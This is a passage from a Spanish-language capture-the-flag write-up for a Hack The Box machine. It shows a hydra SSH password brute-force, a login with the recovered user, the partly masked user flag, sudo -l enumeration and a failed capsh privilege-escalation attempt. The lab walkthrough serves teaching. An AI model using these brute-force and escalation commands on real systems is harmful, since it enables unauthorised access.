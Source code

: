 Y teniendo el archivo de usuarios, vamos ha usar hydra, para realizar un ataque de fuerza bruta y descubrir cual es el usuario. Comando:

```
hydra -L users.txt -p denjanjade122566 ssh://qreader.htb:22 -V
```

El usuario es **tkeller**. Aquí esta el reporte de **hydra**.

![report-hydra](images/report-hydra.png)

# Mantenimiento

Ahora sí, entramos en la máquina por el puerto **`22(ssh)`**: `ssh ssh tkeller@10.10.11.206`

Si hacemos un `whoami` veremos que somo el usuario **tkeller**, y si hacemos un `id` nos reporta lo siguiente: `uid=1001(tkeller) gid=1001(tkeller) groups=1001(tkeller),1002(shared)`. Por último, `ls && cat user.txt` y obtendremos nuestra bandera: 17c98****************************

Si hacemos un `sudo -l`, podremos ver que este `path`: `/usr/local/sbin/build-installer.sh`, se puede ejecutar sudo sin necesidad de ser root (`(ALL : ALL) NOPASSWD`). Lo tomaremos en cuenta por sí el `linpeas` no nos reporta nada importante. 

Antes de ejecutar el `linpeas` vamos ha probar ha modificar nuestro `gid` y `uid` con `/sbin/caps`. Comando:

```
/sbin/capsh --gid=0 --uid=0 -- | Output: Failed to set gid=0: Operation not permitted

```
